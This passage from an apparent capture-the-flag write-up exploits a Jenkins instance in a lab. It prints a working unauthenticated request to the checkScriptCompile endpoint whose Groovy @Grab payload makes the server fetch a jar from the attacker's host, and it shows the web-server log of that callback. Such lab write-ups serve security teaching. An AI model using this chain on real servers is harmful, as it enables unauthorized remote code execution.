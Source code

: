 If the point of the exploit is to create a GET request that gets Jenkins to
connect back to my machine and request the jar file, that seems like a good
place to start. In the [POC
video](https://www.youtube.com/watch?time_continue=7&v=abuH-j-6-s0), they show
visiting `/securityRealm/user/admin` and getting back a page about the admin,
even without auth. I can reproduce that by visiting
`http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/`:

![1551284833773](https://0xdfimages.gitlab.io/img/1551284833773.png)

Now I’ll visit the workflow plugin’s checkScriptCompile API endpoint with some
Groovy that should use the `@Grab` meta annotation to request the jar from me.
I’ll start a `python3 -m http.server 80` and visit:

    
    
    http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)%0A@GrabResolver(name=%27orange.tw%27,%20root=%27http://10.10.14.21/%27)%0A@Grab(group=%27tw.orange%27,%20module=%27poc%27,%20version=%271%27)%0Aimport%20Orange;
    

In that url, I provide a `value` parameter which is the Groovy script to run.
It uses `%0A` for newlines. Here’s how that script looks unencoded:

    
    
    @GrabConfig(disableChecksums=true)
    @GrabResolver(name='orange.tw', root='http://10.10.14.21/')
    @Grab(group='tw.orange', module='poc', version='1')
    import Orange;
    

It defines the parameters for the ‘orange.tw’ package, including where to get
it, and then invokes `@Grab` to fetch it.

On visiting the url, I do see activity on my web server:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.63 - - [27/Feb/2019 11:07:18] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:07:18] "HEAD /tw/orange/poc/1/poc-1.pom HTTP/1.1" 404 -
    10.10.10.63 - - [27/Feb/2019 11:07:19] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:07:19] "HEAD /tw/orange/poc/1/poc-1.jar HTTP/1.1" 404 -
    

Very cool! It tried to download a pom file, and when that failed, went for
`poc-1.jar`. That matches the `module` and the `version` from the url. I can
change module to “0xdf” and version to “223” in the url and see that
reflected:

    
    
    10.10.10.63 - - [27/Feb/2019 11:34:35] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:34:35] "HEAD /tw/orange/0xdf/223/0xdf-223.pom HTTP/1.1" 404 -
    10.10.10.63 - - [27/Feb/2019 11:34:36] code 404, message File not found
    10.10.10.63 - - [27/Feb/2019 11:34:36] "HEAD /tw/orange/0xdf/223/0xdf-223.jar HTTP/1.1" 404 -
    